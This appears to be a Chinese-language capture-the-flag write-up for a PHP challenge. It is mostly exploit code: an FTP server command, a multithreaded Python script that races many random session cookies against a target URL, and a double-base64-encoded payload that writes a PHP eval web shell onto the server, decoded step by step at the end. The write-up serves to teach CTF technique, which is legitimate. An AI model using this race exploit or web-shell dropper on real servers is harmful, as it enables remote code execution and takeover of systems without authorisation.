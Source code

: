 ftp

```sh
sudo python -m pyftpdlib -p 21
```

然后，在根目录(/)下，写一个firesun文件![firesun](/Users/moxiaoxi/Desktop/another/firesun.png)

测试一下，请求http://106.14.61.185:8080/test.html 它会转到ftp://106.14.61.185/firesun

接下来，我参考了[lorexxar](http://lorexxar.cn/2017/03/05/pwnhub-another-php/)里面的脚本，跑了一下。

```python
import requests
import threading
import time
from random import Random
url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"
def down(cookie):
    data = {'image': 'http://106.14.61.185:8080/pwnhub.png'}
    r = requests.post(url, data = data, cookies=cookie)
def ri(cookie):
    s = requests.Session()
    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs='}
    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text
def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str
for i in range(0,10000):
    session = random_str(26)
    cookie = {'PHPSESSID': session}
    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()
```

注：base64字符集不包含<?> 所以，这里要二重base64编码

```Php
ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs=

file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/xiaoxi.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+"));

PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+

<?php eval($_POST[test]);?>
```
